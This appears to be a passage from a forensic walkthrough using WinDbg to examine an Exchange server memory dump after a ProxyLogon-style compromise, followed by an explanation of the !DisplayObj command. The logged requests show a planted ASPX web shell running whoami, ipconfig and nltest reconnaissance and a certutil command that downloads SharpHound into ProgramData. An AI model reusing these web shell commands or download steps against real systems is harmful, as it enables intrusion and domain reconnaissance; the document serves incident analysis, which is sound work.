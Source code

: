 ```
0:000> !mex.AspxPagesExt
 Address          Completed Timeout Time (secs) ThreadId ReturnCode Verb Url
 0000029c3935afb0       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx
 0000029c3ab5b838       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx?cmd=Response.Write%28%22wpvbtk%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+whoami%22%29.StdOut.ReadAll%28%29+%2B+%22wpvbtk%22%29%3B
 0000029c3abfb6b0       yes     110                             200 GET  /owa/exhealth.check
 0000029c3ac27150       yes     110                             302 POST /OWA/auth.owa
 0000029c3acd6ae8       yes     110                             401 POST /owa/proxylogon.owa
 0000029c3acd76c8       yes     110                             302 POST /OWA/auth.owa
 0000029c3acdbeb8       yes     110                             200 GET  /owa/exhealth.check
 0000029c3ad32680       yes     110                             200 GET  /owa/default.aspx
 0000029c3ad396b8       yes     110                             401 POST /owa/proxylogon.owa
 0000029c3ad3bd48       yes     110                             241 POST /owa/proxylogon.owa
 0000029c3ad401e0       yes     110                             401 GET  /owa/
 0000029c3ad64008       yes     110                             200 POST /owa/service.svc?action=GetFolderMruConfiguration
 0000029c3afba2d0       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx?cmd=Response.Write%28%22wpvbtk%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+ipconfig+%2Fall%22%29.StdOut.ReadAll%28%29+%2B+%22wpvbtk%22%29%3B
 0000029c3b0198a8       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx?cmd=Response.Write%28%22wpvbtk%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+nltest+%2Fdclist%3Adc.contoso.com%22%29.StdOut.ReadAll%28%29+%2B+%22wpvbtk%22%29%3B
 0000029c3b0309f0       yes     110                             200 GET  /owa/exhealth.check
 0000029c3b03b648       yes     110                             302 POST /OWA/auth.owa
 0000029c3b06df50       yes     110                             200 GET  /owa/exhealth.check
 0000029c3b0bbf70       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx?cmd=Response.Write%28%22wpvbtk%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+nltest+%2Fdomain_trusts%22%29.StdOut.ReadAll%28%29+%2B+%22wpvbtk%22%29%3B
 0000029c3b137f20       yes     110                             302 POST /OWA/auth.owa
 0000029c3b138f28       yes     110                             200 GET  /aspnet_client/awcqtelumpdnelor.aspx?cmd=Response.Write%28%22wpvbtk%22+%2B+new+ActiveXObject%28%22WScript.Shell%22%29.Exec%28%22cmd.exe+%2Fc+certutil.exe+-urlcache+-split+-f+https%3A%2F%2Fgithub.com%2FBloodHoundAD%2FBloodHound%2Fblob%2Fmaster%2FCollectors%2FSharpHound.exe%3Fraw%3Dtrue+C%3A%5C%5CProgramData%5C%5CSharpHound.exe%22%29.StdOut.ReadAll%28%29+%2B+%22wpvbtk%22%29%3B
20 contexts found (20 displayed).
   AS == possibly async request
   SL == session locked
```

The **`!DisplayObj`** (or **`!do2`**) command displays the structure and details of CLR objects in memory, including raw structures, array contents, static fields, and value type indexes, all referenced by the object's memory address.

This output provides a detailed view of the **`System.Web.HttpContext`** object in memory.

```
0:000> !DisplayObj 0x0000029c3ab5b838
0x0000029c3ab5b838 System.Web.HttpContext
[statics]
  0000  _asyncAppHandler                                          : NULL
  0008  _appInstance                                              : NULL
  0010  _handler                                                  : NULL
  0018  _request                                                  : 0000029c3ab5b9f8 (System.Web.HttpRequest)
  0020  _response                                                 : 0000029c3ab5bb80 (System.Web.HttpResponse)
  0028  _server                                                   : NULL
  0030  _traceContextStack                                        : NULL
  0038  _topTraceContext                                          : NULL
  0040  _items                                                    : NULL
  0048  _errors                                                   : NULL
  0050  _tempError                                                : NULL
```